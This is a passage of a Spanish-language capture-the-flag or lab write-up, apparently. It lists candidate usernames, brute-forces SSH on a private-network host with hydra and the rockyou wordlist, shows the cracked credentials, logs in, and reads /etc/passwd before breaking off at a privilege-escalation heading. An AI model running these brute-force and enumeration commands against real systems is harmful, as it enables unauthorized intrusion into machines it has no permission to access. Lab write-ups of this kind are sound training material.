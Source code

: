 ```bash
Roberto 
anastasia 
Anastasia
james
James 
sophia
Sophia 
catherine
Catherine 
margot
Margot 
valentina
Valentina 
beatrice
Beatrice 
priscilla
Priscilla 
alessandro
Alessandro 
winston
Winston 
marcus 
maximilian
Maximilian 
diego
Diego
```

### Ejecucion del Ataque
Procedemos a realizar un ataque de fuerza bruta pro shh
```bash
# Comandos para explotación
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt -u -f -t 4 -V ssh://192.168.100.30
```

Tenemos credenciales validas:
```bash
[STATUS] 69.87 tries/min, 229 tries in 00:04h, 14344190 to do in 3432:38h, 5 active
[22][ssh] host: 192.168.100.30   login: Sophia   password: dolphins
```

### Intrusion
Ahora que tenemos las credenciales nos conectamos por **ssh**
```bash
# Reverse shell o acceso inicial
ssh Sophia@192.168.100.30 # dolphins
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Enumeracion de usuarios
cat /etc/passwd | grep "sh"

root:x:0:0:root:/root:/bin/bash
debian:x:1000:1000:debian,,,:/home/debian:/bin/bash
Sophia:x:1001:1001:,,,:/home/Sophia:/bin/bash
cipote:x:1002:1002:,,,:/home/cipote:/bin/bash
```
### Explotacion de Privilegios
